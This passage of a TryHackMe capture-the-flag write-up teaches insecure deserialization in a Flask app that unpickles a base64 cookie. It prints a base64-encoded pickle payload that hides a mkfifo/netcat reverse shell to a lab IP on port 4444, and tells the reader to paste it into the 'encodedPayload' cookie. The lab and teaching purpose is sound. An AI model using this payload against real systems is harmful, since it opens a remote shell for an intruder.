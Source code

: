 3. Once you have done this, left-click on the URL in "Provide your feedback!" where you will be direct to page like so:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/476c9fd6-b85f-4e9a-ab5a-3f4395f26244)

If a user was to enter their feedback, the data will get encoded and sent to the Flask application (presumably for storage within a database for example). However, the application assumes that any data encoded is trustworthy. But we're hackers. You can only trust us as far as you can fling us (and that's nigh-on impossible online)

Although explaining programming is a bit out of scope for this room, it's important to understand what's going on in the snippet below:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3fefca8e-2f90-436e-b738-077a9f0556d7)

When you visit the "Exchange your vim" URL, A cookie is encoded and stored within your browser - perfect for us to modify! Once you visit the feedback form, the value of this cookie is decoded and then deserialised. Uh oh. In the snippet below, we can see how the cookie is retrieved and then deserialized via pickle.loads

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e1884836-0af1-43b7-b1f7-a7a68c768663)

This vulnerability exploits Python Pickle, which I have attached as reading material at the end of the room. We essentially have free reign to execute whatever we like such as a reverse shell.

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d6eed2e2-4354-4a90-b51b-b3dad2f19eae)

Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.

1. Create a python file to paste into, I have used "rce.py" for these examples:
 
![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/07838357-532b-44c8-a655-44ca9848714c)

2. Paste the code from the GitHub site, replacing YOUR_TRYHACKME_VPN_IP with your TryHackMe VPN IP from the access page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/494e658d-a902-47b4-9eef-76a8c01101e7)

3. Execute "rce.py" via python3 rce.py

4. Note the output of the command, it will look something similar to this:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/54a0d2bd-9643-474e-b15e-d2af9c71ccaf)

5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:

`gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=`

Yours may look slightly different, just ensure that you copy everything in-between the two speech marks ''

6. Paste this into the "encodedPayload" cookie in your browser:

